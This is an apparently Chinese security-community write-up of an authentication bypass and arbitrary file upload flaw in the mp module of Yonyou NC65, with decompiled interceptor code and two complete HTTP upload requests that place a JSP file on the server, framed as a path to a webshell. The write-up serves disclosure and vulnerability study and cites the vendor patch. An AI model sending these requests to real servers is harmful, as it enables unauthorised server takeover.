

# 用友 NC mp 模块文件上传漏洞分析 - 先知社区

用友 NC mp 模块文件上传漏洞分析

- - -

## 漏洞描述

通过 mp 模块进行任意文件上传，从而上传 webshell 实现控制服务器。

## 影响版本

用友 NC65

## 漏洞分析

配置文件`hotwebs/mp/WEB-INF/spring-mvc.xml`

拦截器

```bash
<mvc:interceptors>
    <mvc:interceptor>
        <mvc:mapping path="/**" />
        <bean id="loginInterceptor" class="com.yonyou.uap.mp.interceptor.LoginInterceptor" />
    </mvc:interceptor>
</mvc:interceptors>
```

在 \\hotwebs\\mp\\WEB-INF\\lib\\uap.mp.core-0.1.0.jar

```bash
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    HttpSession session = request.getSession();
    Object logined = session.getAttribute("user_logined");
    String url = request.getRequestURL().toString();
    if (!url.endsWith("mp/") && !url.endsWith("mp")) {
        if (url.endsWith("index.html")) {
            if (logined == null) {
                response.sendRedirect(request.getContextPath() + "/login.html");
                return false;
            } else {
                return true;
            }
        } else if (!(handler instanceof HandlerMethod)) {
            return true;
        } else {
            HandlerMethod handler2 = (HandlerMethod)handler;
            ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
            String msg = "";
            boolean flag = false;
            logger.info(">>>: " + url);
            String[] arr$ = IGNORE_URI;
            int len$ = arr$.length;

            for(int i$ = 0; i$ < len$; ++i$) {
                String s = arr$[i$];
                if (url.contains(s)) {
                    flag = true;
                    break;
                }
            }

            if (!flag) {
                msg = this.autoLogin(request);
                if (logined == null) {
                    msg = StringUtils.isNotEmpty(msg) ? msg : "<a href='/mp/logout' class='tips_login'>您未登录或长时间未操作,请先登录<a/>";
                    if (null == json) {
                        if (url.indexOf("indexforportal") >= 0) {
                            response.sendRedirect("/mp?indexforportallogin=portallogin");
                        } else {
                            response.sendRedirect("/mp");
                        }
                    } else {
                        MPUtils.sendResponseMsg(response, false, msg);
                    }
                } else {
                    flag = true;
                }
            }

            return flag;
        }
    } else if (logined == null) {
        response.sendRedirect(request.getContextPath() + "/login.html");
        return false;
    } else {
        return true;
    }
}
```

首先通过`request.getRequestURL().toString()`拿到 url 路径（不带参数），如果 url 不是以`mp/`和`mp`结尾，进入 if，

`if (url.endsWith("index.html"))`判断是否登录，登陆状态不拦截，否则拦截。

`else if (!(handler instanceof HandlerMethod))` HandlerMethod 是 Spring MVC 中用于表示控制器方法的类，如果请求的不是一个控制器方法，那么放行。正常来说我们请求接口是某个特定的控制器，所以一般在未登录状态下，请求后端接口时，会进入 else 循环，

```bash
HandlerMethod handler2 = (HandlerMethod)handler;
ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
```

尝试从该方法上获取 `@ResponseBody` 注解的信息。如果方法上存在 `@ResponseBody` 注解，它将返回 `@ResponseBody` 注解的实例，否则将返回 `null`。比如说 json 形式。

```bash
private static final String[] IGNORE_URI = new String[]{"/initcfg", "/login", "/index", "/automsg", "/loginxietong", "/loginportal", "/signportal", "/loginportaldetail", "/loginportalmobile"};
```

接下来在`url.contains(s)`会判断 url 中是否存在`IGNORE_URI`中的内容，如果包含，将 flag 设置为 true，跳过 `if (!flag)` 最终放行 `return flag;`。

那么我们如果构造 url `/mp/login/../xxxx`（假设 xxx 为某控制器方法），在 tomcat 处理中会将 url 处理为 `/mp/xxxx`，而`request.getRequestURL()`和`request.getRequestURI()`，这些危险字符并不会自动剔除掉，这里又符合 上边的流程导致鉴权被绕过。当然 `login` 可换成 `IGNORE_URI`数组中的任意内容

后续在控制器方法中找到 `UploadFileServlet::doPost`，恰好可上传任意文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231211174121-70f7dc9c-9809-1.png)

也可以配合`/mp/loginxietong?username=admin`直接获取 session，然后利用拿到的凭据通过鉴权。

```bash
@ResponseBody
@RequestMapping(
    value = {"/loginxietong"},
    method = {RequestMethod.GET}
)
public ModelAndView login(@RequestParam("username") String username, HttpServletRequest request) {
    HttpSession session = request.getSession();
    SessionUser user = new SessionUser();
    user.setUserCode(username);
    user.setAdmin(false);
    user.setName(username);
    session.setAttribute("user_logined", user);
    logger.info("协同用户登录===>" + username);
    return new ModelAndView("redirect:/indexforxietong.html");
}
```

## 漏洞复现

绕过鉴权

```bash
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

路径是 `` `/mp/uploadFileDir/test.jsp ``

另一种方法：

先获取 cookie：url+/mp/loginxietong?username=admin

```bash
POST /mp/uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0884AE37CCD3416B96C5546D03E67F10.server; mp_name=admin;JSESSIONID=F5E62B60F069DA492605F276E527A71C.server
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

## 漏洞修复

打相关补丁即可。  
[https://security.yonyou.com/#/noticeInfo?id=342](https://security.yonyou.com/#/noticeInfo?id=342)
